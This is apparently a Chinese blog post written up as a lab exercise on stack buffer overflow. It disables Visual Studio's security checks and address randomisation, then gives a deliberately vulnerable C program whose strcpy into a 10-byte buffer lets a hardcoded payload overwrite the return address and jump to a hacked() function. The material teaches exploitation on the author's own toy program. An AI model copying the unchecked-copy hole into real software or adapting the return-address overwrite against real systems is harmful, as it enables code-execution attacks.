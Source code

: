 ```yaml
---
title: 缓冲区溢出-漏洞利用
tags:
  - sec
categories:
 - 安全
 - 软件开发安全
password: happynewyear
abbrlink: 4569b1c4
date: 2019-12-31 17:40:34
---
```


# 实验目的

* 利用缓冲区溢出漏洞，执行本不应被调用的函数

# 实验环境

* VS2019

# 实验内容

## 预备

**关闭IDE的安全检查**

**设置固定基址**

* `链接器`->`固定基址`->`是`
* `链接器`->`随机基址`->`否`
* `链接器`->`基址`：填写任意基址（实验中以`0x40000000`为例）

## 漏洞利用

**漏洞代码**

```c
#define _CRT_SECURE_NO_WARNINGS

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void hacked() {
	printf("hacked!!");
}

int sub(const char* x)
{
	char y[10];
	strcpy(y, x);
	return 0;
}

int main(int argc, char** argv)
{
	const char* str = "123456789101\x99\x99\x99\x99\x70\x15\x01\x40";
	sub(str);
	printf("exit");
}
```

**测试**

* (可选)输入任意造成缓冲区溢出长度的字串（e.g. `1234567891010789790`），确定覆盖`Return Address`的末尾字串

  <center><img src="./缓冲区溢出-漏洞利用/suffix.png" height=50px></center>
  * 执行`ret`命令时会将返回地址赋给`EIP`，需要做的就是覆盖为`hacked()`函数地址。而返回地址就在`EBP`指针之后
  
    <center><img src="./缓冲区溢出-漏洞利用/stack.png" height=350px></center>
  
* 查看`void hacked()`地址

  <center><img src="./缓冲区溢出-漏洞利用/hack.png" height=60px></center>

* 修改字串为`123456789101\x99\x99\x99\x99\x70\x15\x01\x40`

  <center><img src="./缓冲区溢出-漏洞利用/overflow.png" height=70px></center>
  
* 调试，在`sub()`退栈后跳到`hack()`函数

  <center><img src="./缓冲区溢出-漏洞利用/hackok.png" height=70px></center>

* 事实上，可以通过在字串后缀继续增加`\x70\x15\x01\x40`，来实现`hacked()`的多次执行。例如输入串为`123456789101\x99\x99\x99\x99\x70\x15\x01\x40\x70\x15\x01\x40`，`hacked()`函数就执行了两次

  <center><img src="./缓冲区溢出-漏洞利用/print.png" height=250px></center>

